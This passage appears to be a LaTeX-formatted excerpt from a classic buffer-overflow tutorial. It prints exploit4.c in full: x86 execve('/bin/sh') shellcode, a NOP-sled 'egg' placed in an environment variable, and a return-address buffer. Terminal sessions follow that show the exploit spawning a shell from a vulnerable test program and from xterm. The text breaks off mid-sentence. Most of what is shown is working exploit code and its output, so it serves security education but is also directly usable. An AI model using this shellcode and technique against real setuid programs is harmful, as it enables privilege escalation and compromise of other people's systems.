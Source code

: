 \documentclass[10pt]{article}
\begin{document}
\begin{CJK}{UTF8}{bsmi}
\begin{lstlisting}[caption=exploit4.c]
char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46"
  "\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
  "\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_esp(void) 
{
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) 
{
  char *buff, *ptr, *egg;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i, eggsize=DEFAULT_EGG_SIZE;

  if (argc > 1) bsize   = atoi(argv[1]);
  if (argc > 2) offset  = atoi(argv[2]);
  if (argc > 3) eggsize = atoi(argv[3]);
  if (!(buff = malloc(bsize))) 
  {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  if (!(egg = malloc(eggsize))) 
  {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_esp() - offset;
  printf("Using address: 0x%x\n", addr);
  ptr = buff;
  addr_ptr = (long *) ptr;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr = egg;
  for (i = 0; i < eggsize - strlen(shellcode) - 1; i++)
    *(ptr++) = NOP;

  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';
  egg[eggsize - 1] = '\0';  memcpy(egg,"EGG=",4);
  putenv(egg);
  memcpy(buff,"RET=",4);
  putenv(buff);
  system("/bin/bash");
}
\end{lstlisting}

Lets try our new exploit with our vulnerable test program: 

\begin{verbatim}
[aleph1]$ ./exploit4 768
Using address: 0xbffffdb0 
[aleph1]$ ./vulnerable $RET
$
\end{verbatim}

Works like a charm. Now lets try it on xterm: 

\begin{verbatim}
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit4 2148
Using address: 0xbffffdb0
[aleph1]$ /usr/X11R6/bin/xterm -fg $RET
Warning: Color name
...°¤ÿ¿°¤ÿ¿°¤ ...

Warning: some arguments in previous message were lost
$
\end{verbatim}

On the first try! It has certainly increased our odds. Depending on h ow much environment data the exploit 


\end{CJK}
\end{document}
